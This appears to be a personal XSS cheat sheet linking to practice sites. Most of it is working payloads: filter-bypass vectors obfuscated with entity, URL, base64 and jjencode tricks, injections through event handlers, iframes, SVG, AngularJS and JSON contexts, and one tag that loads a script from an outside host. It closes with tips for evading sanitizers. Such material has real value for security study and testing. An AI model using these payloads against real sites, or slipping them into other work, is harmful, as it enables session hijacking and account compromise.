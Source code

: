 # XSS

[http://www.xssgame.com/](http://www.xssgame.com/) : [http://www.xssgame.com/wmOM2q5NJnZS](http://www.xssgame.com/wmOM2q5NJnZS)\
[https://xss.pwnfunction.com/](https://xss.pwnfunction.com/)\
[https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/](https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/)\
[https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf](https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf)\


Check how values are sanitized by the server\
How many ways you can raise an error

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:a
```

Check which framework is used in UI baswd on that create payloads such as in angular to show alert you use interpolation;

## Xss filter bypass >\&lt;script\&gt;alert(1);\&lt;/script\&gt;

Some ideas:

1. Check if the encoding happens recursively. if you provide multiple '<', will they all be encoded?
2. Try different types of encoding (e.g. url encoding, double URL encoding) and see how the application treats them.
3. There are cases were the application normalizes Unicode characters (have a look here [Unicode Normalization Bypass](https://hackerone.com/reports/639684))

## Markdown XSS payload

[https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md](https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md)

## Error produce

"/\</script>



Alert(1) to win: [https://github.com/1bitrs/alert-1-to-win](https://github.com/1bitrs/alert-1-to-win)\
\
Payloads:\


```
Encoded Characters

<img src onerror=j&#97v&#97script&#x3A;&#97lert(1)>
<image src onerror=alert(8)>
<image/src/onerror=alert(8)>
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">
<img src="xss" onerror="eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 88, 83, 83, 39, 41))">
```

```
// Script
<script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>
<script src=//brutelogic.com.br/1.js> 

```

```
// href

<a href="javascript:alert('XSS')">Click me</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
```

```
// iframe
<iframe  src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<iframe src="javascript:alert('XSS')"></iframe>
<iframe/onload=&#97&#108&#101&#114&#116(1)>
```

```
// svg

<svg><script xlink:href=data:,alert(1) /> 
<svg/onload=alert(8)>
<svg onload="alert('XSS')"></svg>
```

```
// input

<input type="button" value="Click me" onclick="alert('XSS')">
<input type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />

```

```
// Framework expression

AngularJS {{alert('XSS')}}
```

```
// form

<form action="javascript:alert('XSS')">
    <input type="submit" value="Submit">
</form>

```

```
// JSON

<script>'({"userdata":"'|alert(1)//"})</script>
use pipe operator to neglect garbage

comment
//
<!--

```

```
// Special character JS, usefull once code is outside of console, or code

it is recommended to use jjencode, which can be done in 537 characters.

https://utf-8.jp/public/jjencode.html
```

```
// alert jjencode

");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```

```
// Some code

s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
<script> var email = ''|new Function`a${'alert'+String.fromCharCode`40`+1+String.fromCharCode`41`}`|''; </script>

[]["pop"]["constructor"]('alert(1)')()
"|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"
"|[]["p\\x6fx6fp"]["c\\x6fx6fnstr\\x75x75ct\\x6fx6fr"]('\\x61x61l\\x65x65rt(1)')()|"

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/\"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

```

```
// Generate Error

"
\
</script>
```

## Tips

Code-split : | , ; , enter + code, +, -, /, , , %,^,&,\*, <, >

Break the code inside the quotation

```
<script>console.log("</script>")</script>

Depending on situation
```

If JavaScript code sanitizes `<` and `>` characters, it indicates that it's trying to prevent HTML injection and potentially XSS attacks. However, there are ways attackers can still attempt XSS, such as using alternative encodings or bypassing the sanitizer logic. Here are a few techniques they might try:

1. **Using Hex Encoding**: Instead of `<` and `>`, attackers might try using their hexadecimal equivalents (`%3C` for `<` and `%3E` for `>`). Some sanitizers may miss these encoded forms.
2. **Using Unicode Encoding**: Attackers might use Unicode encoding to represent `<` and `>` characters. For example, `\u003C` for `<` and `\u003E` for `>`.
3. **Using Alternative Tags**: Instead of `<script>` tags, attackers might try using alternative tags that the sanitizer may not detect as executable code. For example, `<img>` tags with JavaScript in the `src` attribute, or even uncommon HTML tags.
4. **Event Handlers**: Attackers can try using event handlers like `onmouseover` or `onerror` to execute JavaScript code without directly injecting `<script>` tags.
5. **CSS Injection**: Although less common, attackers might try injecting CSS code that includes JavaScript execution, such as using the `expression()` function in old versions of Internet Explorer.
